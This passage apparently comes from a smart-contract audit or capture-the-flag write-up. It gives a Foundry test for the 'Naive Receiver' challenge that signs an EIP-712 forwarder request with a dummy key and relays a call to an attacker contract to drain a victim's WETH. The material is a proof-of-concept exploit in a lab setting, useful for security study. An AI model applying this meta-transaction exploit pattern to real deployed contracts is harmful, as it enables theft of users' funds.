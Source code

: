 **Proof of Code**:
Run the code in `NaiveReceiverPool.t.sol`:

```javascript
function testDrainUserFunds() public {
	// 1. Using dummy key
	uint256 privateKey = 0xA11CE;
	address signer = vm.addr(privateKey);

	// 2. Build calldata
	bytes memory callData = abi.encodeWithSignature("attack()");

	// 3. Build the request
	BasicForwarder.Request memory req = BasicForwarder.Request({
		from: signer,
		target: address(attacker),
		value: 0,
		gas: 100_000,
		nonce: basicForwarder.nonces(signer),
		data: callData,
		deadline: block.timestamp + 1 hours
	});

	// 4. Hash the struct using EIP712
	bytes32 typeHash = basicForwarder.getRequestTypehash();
	bytes32 structHash = keccak256(
		abi.encode(
			typeHash,
			req.from,
			req.target,
			req.value,
			req.gas,
			req.nonce,
			keccak256(req.data),
			req.deadline
		)
	);

	// 5. EIP712 Digest
	bytes32 digest = keccak256(
		abi.encodePacked(
			"\x19\x01",
			basicForwarder.domainSeparator(),
			structHash
		)
	);

	// 6. Sign with victim’s private key
	(uint8 v, bytes32 r, bytes32 s) = vm.sign(privateKey, digest);
	bytes memory signature = abi.encodePacked(r, s, v);

	// 7. Simulate call to forwarder
	vm.prank(makeAddr("relayer"));
	basicForwarder.execute(req, signature);

	console2.log("Signature accepted and forwarded to:", req.target);
	assertEq(weth.balanceOf(signer), 0, "Victim should be drained");
	console2.log("Pool WETH balance:", weth.balanceOf(address(naivePool)));
}
```
